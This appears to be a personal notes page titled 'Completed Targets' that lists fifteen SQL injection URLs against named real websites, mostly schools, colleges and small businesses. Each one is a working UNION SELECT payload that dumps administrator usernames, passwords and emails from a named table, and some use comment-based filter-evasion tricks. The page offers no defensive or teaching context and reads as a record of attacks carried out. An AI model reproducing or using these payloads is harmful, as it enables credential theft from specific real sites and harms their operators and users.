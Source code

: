 # <mark style="background: #FF5582A6;">For Review : </mark> 
[[01-Intro]]
[[02-Sql Injection (Basic)]]
# <mark style="background: #FFB86CA6;">Completed Targets : 
</mark> 

1. http://kansascitynova.org/news.php?id=42%27%20union%20select%201,2,3,4,group_concat(username,0x3a3a,email,0x3a3a,password,%27%3Cbr%3E%27),6,7%20from%20sadmin_users--+

2. https://tristoneandtile.com/product.php?id=852999999.9%27%20union%20select%201,2,3,4,5,group_concat(admin_username,0x3a3a,admin_password,0x3a3a,admin_email,%20%27%3Cbr%3E%27),7,8,9,10,11,12,13,14%20from%20sq_admin--+

3. http://steerwings.com/university.php?id=-5%27%20union%20select%201,group_concat(usrsecunm_busssetup_eusr,0x3a3a,usrsecpwd_gpnl_busssetuppwd,%20%27%3Cbr%3E%27),3,4,5,6%20from%20bussasecsetepadm_stnlogn_tb--+

4. https://ijepr.org/paper.php?id=-204%27%20union%20select%201,2,3,4,group_concat(email,0x3a3a,password,%20%27%3Cbr%3E%27),6,7,8,9,10%20from%20admin--+

5. http://piriya-international.com/product.php?id=-72%20/*!12345union*//*!12345select*/%201,2,3,4,/*!12345unhex(hex(group_concat(email,0x3a3a,password,%20%27%3Cbr%3E%27)))*/,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34%20/*!12345from*/%20t_account--

6. https://www.htps.edu.hk/en/school.php?id=-19%27%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,unhex(hex(group_concat(usr_login_name,0x3a3a,usr_name,0x3a3a,usr_email,0x3a3a,usr_pwd,%20%27%3Cbr%3E%27))),21%20from%20usr--+

7. http://www.marywardlubhu.edu.np/school.php?id=168&cat_id=23%27%20/*!12345union*/%20select%20group_concat(username,0x3a3a,password,%20%27%3Cbr%3E%27)%20from%20tbl_admin--+

8. https://www.lingto.edu.hk/en/school.php?id=-59%27%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,unhex(hex(group_concat(usr_login_name,0x3a3a,usr_name,0x3a3a,usr_email,0x3a3a,usr_pwd,%20%27%3Cbr%3E%27))),21,22,23,24,25%20from%20usr--+

9. http://project-lovcen.me/gallery.php?id=-42%20union%20select%201,group_concat(user_id,0x3a3a,usn,0x3a3a,pass,%20%27%3Cbr%3E%27)%20from%20administracija--

10. https://www.appasamy.com/gallery.php?id=-9%27%20union%20select%201,group_concat(username,0x3a3a,password,0x3a3a,email,%20%27%3Cbr%3E%27),3,4,5,6%20from%20admin--+

11. https://www.jisa.ac.in/gallery.php?id=-8%27%20union%20select%201,2,3,unhex(hex(group_concat(USER_NAME,0x3a3a,USER_PASS,%20%27%3Cbr%3E%27))),5,6,7,8,9,10%20from%20tbl_m_user--+

12. https://www.lghk.com/product.php?id=58&pid=-7%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,group_concat(usr_name,0x3a3a,usr_email,0x3a3a,usr_pwd),17%20from%20usr--

13. http://dhanalakshmicollegeofnursing.org/school.php?id=-12%20union%20select%201,group_concat(user_name,0x3a3a,user_password,0x3a3a,user_email,%20%27%3Cbr%3E%27),3,4,5,6,7%20from%20user--

14. http://ddpsbijnor.edu.in/ddpsbijnor-Gallery.php?id=-4%27%20/*!12345union*/%20/*!12345select*/%201,/*!12345unhex(hex(group_concat(username,0x3a3a,password,0x3a3a,email,%20%27%3Cbr%3E%27)))*/,3,4,5%20/*!12345from*/%20tbl_admin--+

15. https://theheritageschool.org/details-event.php?id=-162%27%20/*!12345union*/%20%20/*!12345select*/%201,%20/*!12345unhex(hex(group_concat(admin_name,0x3a3a,password,%20%27%3Cbr%3E%27)))*/,3,4,5,6,7%20%20/*!12345from*/%20dt_admin--+
